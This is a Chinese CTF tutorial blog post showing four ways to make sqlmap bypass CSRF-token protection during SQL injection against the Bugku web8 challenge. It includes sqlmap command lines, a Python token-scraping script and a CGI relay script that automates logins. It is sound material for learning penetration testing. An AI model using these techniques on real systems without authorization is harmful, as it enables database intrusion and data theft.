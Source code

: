 ```yaml
---
title: sqlmap CSRF-token 绕过姿势
key: 52c47e05319207ba9fd6b607350b4a67
tags:
  - Summary
  - SQLi
date: 2019-03-25 00:23:00
---
```

CSRF(Cross-site request forgery 跨站请求伪造)主流防御方式是在后端生成表单的时候生成一串随机 token ，内置到表单里成为一个字段，同时，将此串 token 置入 session 中。每次表单提交到后端时都会检查这两个值是否一致，以此来判断此次表单提交是否是可信的。提交过一次之后，如果这个页面没有生成 CSRF token ，那么 token 将会被清空，如果有新的需求，那么 token 会被更新。

<!--more-->

当我们在使用sqlmap自动化进行SQL注入时，有些场景下需要解决csrf-token验证问题，本文结合[CTF_论剑场](https://new.bugku.com) web8 样例进行演示常见的4种绕过方式:结合BurpSuite宏绕过、eval参数绕过、通过Python CGIHTTPServer绕过以及通过--csrf-url/token参数绕过~

题目在update.php里`age`更新处存在`数字型SQL注入`，每次提交更新需要验证`token`值，不符合则会触发**CSRF token mismatch**，这里的token为前端赋值~

![](/assets/images/move/1552118730410-ae528994-5ea0-4de2-b3fb-3c6b4f2e4c67.png)

## BurpSuite Macros

我们可以利用BurpSuite Macros录制token，获取前一次HTTP请求响应的token值，作为后续请求的输入参数，从而绕过csrf-token验证。

`Project Opition`->`Session`->`Macros`，点击`Add`添加宏:

![](/assets/images/move/1552120384862-ea454f45-a63b-4c10-a8bd-b2889bb6091c.png)

在`Macro Recorder`中选择获取token的页面后确定。

![](/assets/images/move/1552120713208-028ed873-9fcc-4889-9877-61b093cdac09.png)

![](/assets/images/move/1552121005246-d68403d7-99ff-4054-a113-010afa47a13d.png)

![](/assets/images/move/1552121156506-ef1aafd9-65ea-4d9d-829c-61adccc8024c.png)

![](/assets/images/move/1552121640868-3b2dae6d-5bec-4af7-97cf-c3b7e642df98.png)

![](/assets/images/move/1552121984945-835d9f76-3e05-44df-ad9c-735850e98d74.png)

添加规则生效的模块以及获取token界面的URL地址。

![](/assets/images/move/1552122423697-80e8dcd4-5c16-40fc-aa95-c6b837e7fecb.png)

检测是否正确工作，使用sqlmap经过burpsuite进行注入，成功绕过csrf-token~

```bash
sqlmap -r C:\Users\light\Desktop\post.txt --proxy=http://127.0.0.1:8080 --dbs -v 3
```

![](/assets/images/move/1552123107426-1234cd74-3080-4663-921b-d27520b45e8d.png)

## eval参数

```s
# sqlmap手册
--eval=EVALCODE  Evaluate provided Python code before the request 
# e.g. 每次请求时根据id参数值，做一次md5后作为hash参数的值。
"import hashlib;id2=hashlib.md5(id).hexdigest()"
```

在有些时候，需要根据某个参数的变化，而修改另个一参数，才能形成正常的请求，这时可以用--eval参数在每次请求时根据所写python代码做完修改后请求。

这里我们可以写一个脚本来获取页面csrf-token的值,通过sqlmap --eval参数将获取的token加入数据包后再发送请求进行测试，从而绕过csrf-token验证。

getToken脚本:

```python
import urllib2
import re


def get_token():
    # Load a page to generate a CSRF token
    opener = urllib2.build_opener()
    opener.addheaders.append(('Cookie', 'PHPSESSID=<insert PHPSESSID>'))
    page = opener.open('http://<insert url>/index.php').read()
    # Extract the token
    match = re.search(r'<input type="hidden" name="token" value="(.+)">', page)
    return match.group(1)
```

执行命令验证：

```bash
python2 sqlmap.py -r C:\Users\light\Desktop\post.txt --eval="import getToken; token = getToken.get_token()" -v 3 -p "age" --current-db
```

![](/assets/images/move/1552148260954-ff0d7e2e-9d4b-4831-af17-fe62d6a8af4a.png)

成功绕过，但受python脚本运行影响效率较低~

## Python CGIHTTPServer

CGI(Common Gateway Interface)是服务器和应用脚本之间的一套接口标准。它的功能是让服务器程序运行脚本程序，将程序的输出作为response发送给客户。总体的效果，是允许服务器动态的生成回复内容，而不必局限于静态文件。

支持CGI的服务器程接收到客户的请求，根据请求中的URL，运行对应的脚本文件。服务器会将HTTP请求的信息和socket信息传递给脚本文件，并等待脚本的输出。脚本的输出封装成合法的HTTP回复，发送给客户。CGI可以充分发挥服务器的可编程性，让服务器变得“更聪明”。

现在我们通过CGIHTTPServer即可在本地tcp端口监听,动态修改数据包，无需配置和刻意提交token,即可使用sqlmap检测sql注入。

创建CGI脚本如下:

```python
import cgi,cgitb
from mechanize import Browser
cgitb.enable() #允许发生错误时浏览器打印通知

url = "http://your-url/index.php"

def respond(string):
    print("Content-Type: text/html")
    print()
    print(string)
    quit()

form = cgi.FieldStorage()
u = form["username"].value
p = form["password"].value

b = Browser()
b.set_handle_robots(False)
b.open(url)
b.select_form(nr=0)
b.form["username"] = u
b.form["password"] = p
b.submit()
respond(b.title())
```

目录结构:
```bash
csrf-token # 自定义
└─cgi-bin # 设置为cgi-bin
    └─token.py # 自定义脚本名称
```

Python3下执行命令:`python -m http.server --cgi 8000`开启CGIHTTPServer.

浏览器访问:http://127.0.0.1:8000/cgi-bin/token.py?username=x3nd&password=x3nd.


![](/assets/images/move/1552129345855-41183c20-05af-4bce-a6dc-8fe91180ed78.png)

打印了成功登陆后的页面标题，表明登陆成功，现在我们可以直接运行sqlmap尽情测试了。

```bash
sqlmap -r C:\Users\light\Desktop\post.txt --current-db
```

![](/assets/images/move/1552184470820-e0c4692b-c7c0-411e-88e0-13420c19af84.png)


## --csrf-url/token

在sqlmap usage里 Requests模块中描述：

```bash
# --csrf-token 用于保存反CSRF令牌的参数
--csrf-token=CSR..  Parameter used to hold anti-CSRF token
# --csrf-url 用于提取反CSRF令牌的URL地址
--csrf-url=CSRFURL  URL address to visit to extract anti-CSRF token
```

> [Implement anti-CSRF protection bypass](https://github.com/sqlmapproject/sqlmap/issues/2)


sqlmap在注入过程中对于一些易识别的参数关键字如"token"、"nonce"进行了识别，会询问是否进行anti-CSRF操作，但默认获取csrf的地址为数据包中的地址，如本题目中的`update.php`，而`token`的获取在这里应该是`index.php`界面，这时就需要我们分析并指定--csrf-token以及--csrf-url方便sqlmap进行anti-CSRF。

```bash
sqlmap -r C:\Users\light\Desktop\post.txt --csrf-url="http://123.xxx.xxx.85:10008/index.php" --csrf-token=token --dbs
```

![](/assets/images/move/1552185625050-5eb57679-0fa8-4fec-ab89-48d0af4fb47b.png)


sqlmap+BurpSuite Macros绕过csrf-token繁琐在csrf-token宏的会话录制处理，--eval参数配置脚本则需要我们自写获取token的python脚本且运行效率较慢，通过类似中间层作用的Python CGIHTTPServer绕过时，可以在使用sqlmap或burpsuite等工具测试时不需要进行额外的操作，sqlmap官方提供的anti-CSRF策略(--csrf-url/token)不失为一种方便操作的办法。